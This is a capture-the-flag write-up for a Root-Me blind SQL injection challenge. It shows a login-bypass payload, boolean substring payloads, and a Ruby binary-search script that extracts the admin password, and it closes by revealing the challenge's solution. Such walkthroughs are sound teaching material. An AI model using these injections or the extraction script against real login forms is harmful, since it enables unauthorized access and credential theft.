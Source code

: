 # [SQL Injection Blind](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-blind)

So here, we got a blind SQL injection, meaning we can't see the results of our query, malicious 
or otherwise. We have to use what IS returned to infer about the success or failure of our 
query.

If we type a random user/pass like "admin:admin"

We get "No such user/password"

Curiously we can bypass the login and get in as "admin" with: `admin' or 1=1-- `

But they don't give us the password, so we got to extract it.

So basically we have two end results:

A successful query returns "Welcome back admin"

An unsuccessful query returns "No such user/password"

We can use this to character by character extract the user password using brute force.

If we made a query like this:

`admin' and substr(password,1,1) = 'a'-- `

This would only be successful if the first character of the admin password was 'a'.

Let's figure out how long the password is first!

`admin' and strlen(password) > 10-- `

That returns an error so we know the length of the password is less than 10. We can iterate 
through the numbers 9 down to 1 until we find our password length. It is 8 characters!

Let's script a brute forcer!

```ruby
require 'net/http'

allChars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789".chars.sort
pass = ""
url = "http://challenge01.root-me.org/web-serveur/ch10/"

8.times do |i|
  charset = allChars
  while charset.length > 1
    curr = (charset.length - 1) /2
    char = charset[curr]
    puts "Password(#{i+1}/8): #{pass}, Testing: #{char}"
    injection = "username=admin%27+and+substr%28password,1,#{pass.length+1}%29"
    # %3E >
    # check if current password substring > pass + char
    injection += "%3E%27#{pass+char}%27--+&password=anything"
    req = `curl "#{url}" -H 'Cookie: uid=wxxxxxxxxxxxxxxxxxxxxx==' --data '#{injection}'`

    if req.include? "no such user/password" # substring is less than or equal
      charset = charset[0..curr]
    else
      charset = charset[(curr+1)..-1]
    end

    system('clear')
  end
  pass += charset[0]
end

puts "Password for admin: #{pass}"
```

Because I am using binary search and it's only 8 characters long, this takes less than 15 seconds.

Password is: **e2azO93I**
